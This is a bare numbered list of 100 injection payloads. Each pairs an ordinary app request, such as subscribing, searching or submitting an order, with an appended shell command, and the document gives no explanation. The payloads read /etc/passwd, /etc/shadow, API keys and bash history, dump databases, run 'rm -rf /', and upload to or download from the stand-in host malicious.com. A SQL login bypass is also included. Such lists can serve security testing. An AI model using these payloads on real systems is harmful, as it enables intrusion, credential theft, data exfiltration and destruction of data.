 1. Subscribe to Newsletter: attacker`whoami`@vulnerable.com
2. Subscribe to Newsletter: attacker@vulnerable.com | whoami
3. Give me a product details: black jacket | whoami
4. Retrieve User List: admin@vulnerable.com; cat /etc/passwd
5. Get Server Info: info; hostname
6. Check File Permissions: file.txt; ls -l file.txt
7. Reset Password: new_password; cat /etc/shadow
8. Search Inventory: item; find / -name "inventory.txt"
9. Submit Feedback: Great service; head -n 5 /var/log/syslog
10. Get App Version: version; grep "version" /path/to/app
11. Request Assistance: help; df -h
12. Fetch Logs: log; tail -n 100 /var/log/apache2/access.log
13. Check Server Status: status; systemctl status
14. Get Connection Info: connection; netstat -an
15. Download Data: data_id; wget http://malicious.com/data.zip
16. Add User: username; useradd test_user
17. Submit Comment: Nice article; echo "Comment added!"
18. Get All Products: all_products; ls /var/www/html/products
19. Request Feedback: feedback; whoami
20. Track Shipment: tracking_number; curl http://malicious.com
21. Join Forum: user@vulnerable.com; ls /tmp
22. Login Attempt: admin' OR '1'='1' -- 
23. Post Message: message; echo "Message posted!"
24. Add to Cart: product_id; ls -l /cart
25. View Settings: settings; cat config.php
26. Get User Agent: agent; curl -A "attacker" http://vulnerable.com
27. Request Help: need_help; ping -c 4 8.8.8.8
28. View History: history; cat ~/.bash_history
29. List Users: users; getent passwd
30. Get Details: details; ls -la
31. Retrieve Notifications: notifications; echo "Notifications fetched!"
32. Update Information: info; touch /tmp/update.txt
33. Change Settings: setting_value; echo "Settings changed!"
34. Submit Order: order_id; rm -rf /
35. Get Client Info: client_id; cat /etc/group
36. Download Report: report; curl -O http://malicious.com/report.pdf
37. Post Review: review; echo "Review posted!"
38. Get Environment Variables: env; printenv
39. Send Message: recipient; echo "Hello" > message.txt
40. Fetch User Data: user_data; ls /var/users
41. Update Preferences: prefs; cat /var/log/prefs.log
42. Search Product Catalog: catalog; grep "product" /path/to/catalog.txt
43. Request Data: data; curl http://malicious.com
44. Create Event: event_name; touch /tmp/event_created
45. Fetch Configuration: config; cat /etc/hostname
46. Get Backup Info: backup; ls /backups
47. Retrieve Emails: emails; ls /var/mail
48. Request File: file_name; cat /etc/passwd
49. Add Item to Wishlist: item_id; echo "Item added!"
50. Request Order History: history; cat /var/log/orders.log
51. Fetch User Details: user_id; ls /home/
52. Check System Uptime: uptime; cat /proc/uptime
53. List Running Processes: processes; ps aux
54. Get Installed Packages: packages; dpkg --list
55. Search for Files: file_name; locate file_name
56. Upload Document: document; curl -T /path/to/file.txt http://malicious.com/upload
57. Get Database Info: db_name; mysql -e "SHOW DATABASES;"
58. Send Command: command; eval "command"
59. Update User Profile: profile; echo "Profile updated!"
60. View Recent Activities: activities; tail -n 50 /var/log/auth.log
61. Get Network Configuration: network; ifconfig
62. Retrieve API Key: api_key; cat /etc/api_keys
63. Check Disk Space: space; df -h
64. Get System Information: sys_info; uname -a
65. Download File: file; wget http://malicious.com/file.txt
66. View Web Server Info: web_info; cat /var/log/httpd/error_log
67. Check Memory Usage: memory; free -m
68. Get User History: user_history; cat ~/.history
69. Request System Logs: logs; tail -n 100 /var/log/syslog
70. Update Configuration: config_file; vi /etc/config_file
71. Retrieve Payment Info: payment_id; cat /etc/payments
72. List Network Connections: connections; netstat -tuln
73. Check System Load: load; uptime
74. Submit Bug Report: bug; echo "Bug reported!"
75. Fetch Database Dump: db_dump; mysqldump -u root -p db_name
76. View Configuration Files: config; ls /etc/
77. Get Current User: current_user; whoami
78. Send Notification: message; echo "Notification sent!"
79. Check Firewall Rules: firewall; iptables -L
80. Request User Info: user_email; cat /etc/passwd
81. Get Login Attempts: login_attempts; cat /var/log/auth.log
82. Fetch Error Logs: error_logs; tail -n 50 /var/log/apache2/error.log
83. List Sessions: sessions; ps aux | grep session
84. Get Software Versions: versions; dpkg -l
85. Check CPU Info: cpu_info; lscpu
86. Retrieve Application Logs: app_logs; cat /var/log/app.log
87. View Environment Variables: env_vars; env
88. Send API Request: endpoint; curl http://api.vulnerable.com/endpoint
89. Get User Permissions: user_perms; ls -l /home/user
90. List Active Users: active_users; who
91. Check for Updates: updates; apt-get update
92. Download Backup: backup_file; wget http://malicious.com/backup.zip
93. Retrieve Local Files: local_file; cat /var/local/file.txt
94. Post Feedback: feedback; echo "Feedback submitted!"
95. View Cache: cache; ls /var/cache/
96. Get Application Status: app_status; systemctl status application
97. Check for Shell Access: shell; /bin/bash
98. Fetch Current Date: date; date
99. Request System Health: health_check; curl http://localhost/health
100. Get Session Info: session_id; ps -ef | grep session_id
